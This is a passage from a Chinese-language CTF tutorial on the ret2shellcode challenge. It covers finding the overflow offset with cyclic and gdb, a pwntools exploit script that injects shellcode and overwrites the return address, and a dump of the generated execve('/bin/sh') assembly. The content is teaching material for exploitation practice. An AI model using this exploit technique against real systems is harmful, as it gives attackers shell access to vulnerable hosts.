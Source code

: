 ```powershell
0x62616164 in ?? ()
gdb-peda$ 
[2]+  已停止               gdb ret2shellcode
root@kali:~/桌面/CTF# cyclic -l 0x62616164
112
root@kali:~/桌面/CTF# 
```

exp如下：

```powershell
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh()) #生成并汇编shellcode
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

> shellcode = asm(shellcraft.sh()) #生成并汇编shellcode
>

我们知道asm函数是对某个内容进行汇编，可是shellcraft.sh()的内容是什么呢？我们来看一下：

```python
#!/usr/bin/env python
from pwn import *

shellcode = asm(shellcraft.sh()) 

print shellcraft.sh()
```

```plain
root@kali:~/桌面/CTF# python 1.py
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

root@kali:~/桌面/CTF# 
```

